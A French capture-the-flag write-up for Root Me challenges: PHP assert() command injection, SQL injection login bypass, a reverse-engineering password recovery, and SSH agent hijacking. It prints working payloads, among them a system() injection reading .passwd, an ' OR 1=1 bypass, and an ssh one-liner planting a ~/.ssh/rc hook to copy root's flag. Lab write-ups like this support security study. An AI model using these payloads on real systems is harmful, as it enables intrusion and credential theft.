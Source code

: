 # DETECTION DE VULNÉRABILITÉS
##### Write UP - Root Me
##### tous les flags trouvés dans ces challenges seront tronqués
</br>
</br>

### Chall 1 : [PHP - assert()](https://www.root-me.org/fr/Challenges/Web-Serveur/PHP-assert)
----
</br>

![alt text](imgchall1/php-assert.png "PHP - assert()")
</br>

En se déplaçant sur le site on peut remarquer que les pages sont introduites par
> ?page=

donc on teste des valeurs ramdom pour voir ce que cela nous retourne
> ?page='test'

ce qui va sans surprise nous retrouner une erreur:
> Parse error: syntax error, unexpected T_STRING in /challenge/web-serveur/ch47/index.php(8) : assert code on line 1 Catchable fatal error: assert(): Failure evaluating code: strpos('includes/'test'.php', '..') === false in /challenge/web-serveur/ch47/index.php on line 8

A partir de là on sait qu'on peut faire exé-cuter du code grâce à __?page=''__ donc le but dans un premier temps va être d'essayer de faire ressortir la liste des fichiers du répertoire. Pour ce faire on peut essayer d'utiliser la commande __system()__
> ?page='.system("ls -la").'

ce qui nous retourne la liste de tous les fichiers du répertoire courant
```
total 32 
dr-xr-x--- 3 web-serveur-ch47 www-data 4096 Feb 27 2018 . 
drwxr-s--x 69 challenge www-data 4096 Feb 2 15:30 .. 
-r-------- 1 challenge challenge 90 Nov 20 2016 ._nginx.http-level.inc 
-r-------- 1 challenge challenge 727 Nov 20 2016 ._nginx.server-level.inc 
-r-------- 1 challenge challenge 218 Feb 27 2018 ._php53-fpm.pool.inc 
-r-------- 1 web-serveur-ch47 www-data 192 May 7 2017 .passwd 
drwxr-sr-x 2 web-serveur-ch47 www-data 4096 Feb 7 2018 includes 
-rw-r----- 1 web-serveur-ch47 www-data 811 Feb 19 2018 index.php 'includes/'.system("ls -la").'.php'File does not exist
```

On peut voir alors que le fichier qui nous interresse se trouve dans ce répertoire
> -r-------- 1 web-serveur-ch47 www-data 192 May 7 2017 .passwd 

On peut ainsi refaire la même manipulation en changeant un peu le contenu de __system()__
> ?page='.system("cat .passwd").'

ce qui nous permet d'avoir le retour suivant:
> The flag is / Le flag est : x4Ss[...]A1Lx Remember to sanitize all user input! / Pensez à valider toutes les entrées utilisateurs ! Don't use assert! / N'utilisez pas assert ! 'includes/'.system("cat .passwd").'.php'File does not exist

On a donc bien notre flag : __x4Ss[...]A1Lx__
</br>
</br>

### Chall 2 : [SQL injection - Authentification](https://www.root-me.org/fr/Challenges/Web-Serveur/SQL-injection-authentification)
----
</br>

![alt text](imgchall2/sql-injection_auth.png "SQL injection - Authentification")
</br>

Le but de ce challenge comme son nom l'indique est d'exploiter une faille __SQL__ pour pouvoir s'authentifier en tant qu'admin sur le site.

Dans un premier temps nous nous retrouvons sur cette page
</br>

![alt text](imgchall2/sql-injection_auth_2.png "SQL injection - Authentification")
</br>

donc le but va être d'exécuter une requête __SQL__ dans un des champs afin de récupérer les logs admin.

Nous allons d'abord essayer de récupérer les logs de l'utilisateur n°1 en base de données. Pour cela on entre la requête suivante dans le champ __Login__ et on met un caractère (minimum) dans le champ __Password__ afin de ne pas le laisser vide.
> ' OR 1=1 /*

ce qui nous permet de nous logger sur l'utilisateur 1
</br>

![alt text](imgchall2/sql-injection_auth_3.png "SQL injection - Authentification")
</br>

A partir de ce moment nous pouvons supposer que l'administrateur a une entrée nommée __admin__ en base de données. Nous exécutons la requête suivante afin d'obtenir les logs d'un potentiel utilisateur __ADMIN__
> ' OR 1=1 AND `username`='admin' /*

Cette requête s'avère être la bonne car nous avons pour retour à ce moment
</br>

![alt text](imgchall2/sql-injection_auth_4.png "SQL injection - Authentification")
</br>

Le mot de passe __admin__ est non lisible, il ne nous reste qu'à inspecter l'élément et changer le __type=__ du champ password ce qui nous revèle le mot de passe de l'admin.

Le flag est donc : __t0[...]k!$__
</br>
</br>

### Chall 3 : [PE x86 - 0 protection](https://www.root-me.org/fr/Challenges/Cracking/PE-x86-0-protection)
----
</br>

![alt text](imgchall3/chall3.png "PE x86 - 0 protection")
</br>

Dans un premier temps on télécharge le __.exe__ du challenge, ensuite nous l'ouvrons avec __Cutter__ afin d'avoir une vue désassemblée de cet exécutable.
</br>

![alt text](imgchall3/cutter_1.png "PE x86 - 0 protection")
</br>

Nous savons que le but de ce challenge est de retrouver le __Password__ donc nous allons commencer par chercher une fonction __Wrong.password__. Nous entrons notre recherche dans la barre de rechercher de __Cutter__ ce qui nous renvoie ici:
</br>

![alt text](imgchall3/cutter_2.png "PE x86 - 0 protection")
</br>

Ici on peut voir dans le __DATA XREF__ a quelle fonction correspond cette string et où elle se trouve
> ; DATA XREF from fcn.00401726 @ 0x04017aa

A partir de la nous nous deplacons vers la __fonction__ d'addresse 0x004017aa, ce qui nous ramène sur cette vue:
</br>

![alt text](imgchall3/cutter_3.png "PE x86 - 0 protection")
</br>

D'ici nous pouvons voir grâce à l'arborescence que plusieurs variables sont reliées à cette fonction, et que en bout de ligne ce trouve un commentaire en chiffre. Ces chiffres doivent être le mot de passe décomposé. Si nous executons le programme et entrons ses chiffres comme mot de passe nous avons une erreur
> Wrong Password

Si ces chiffres ne fonctionne pas essayons de les transcoder dans un autre type, par exemple en __ASCII__, si nous prennons la correspondance de chaque chiffre alors cela nous donne 
> 'S' 'P' [...] 'S'

et si nous entrons ces lettres (majuscule et miniscule respectées) alors a ce moment nous avons le message 
> Gratz Man :)

qui apparait, donc ce mot de passe est le bon

Flag : __SP[...]S__
</br>
</br>

### Chall 4 : [PE x86 - 0 protection](https://www.root-me.org/fr/Challenges/Cracking/PE-x86-0-protection)
----
</br>

![alt text](imgchall4/chall4.png "SSH - Agent Hijacking")
</br>

Pour ce challenge nous devons demarrer un machine virtuel détenue par root-me et nous connecter desssus avec les logs: __admin/admin__.
</br>

![alt text](imgchall4/chall4_1.png "SSH - Agent Hijacking")
</br>

Donc nous avons le VM ctf06, ce qui est important a retenir pour la suite.

Pour la suite nous devons ecrire un script qui nous permettra de d'exécuter du code quand notre collègue se connectera sur le server. Soit nous nous connecton sur le server et nous ecrivons notre script dans 
> ~/.ssh/rc

pour qu'il s'exécute a la connexion, soit nous ecrivons cette ligne dans notre terminal
> ssh -oStrictHostKeyChecking=no admin@ctf06.root-me.org "echo \"ssh -oStrictHostKeyChecking=no root@localhost 'cat /passwd /root/.flag > /tmp/flag && chmod 777 /tmp/flag'\" > .ssh/rc; while [[ ! -f /tmp/flag ]]; do sleep 1; done; cat /tmp/flag"

en oubliant pas de changer 
> admin@ctf06.root-me.org

en fonction de la machine que nous utilison. Ce qui nous donnera après 1 minute d'atttente ce résultat:
</br>

![alt text](imgchall4/chall4_2.png "SSH - Agent Hijacking")
</br>

Nous avons donc nos 2 flags.

Flag VM : __4179[...]c300d05__

Flag Chall : __B3[...]AGENT__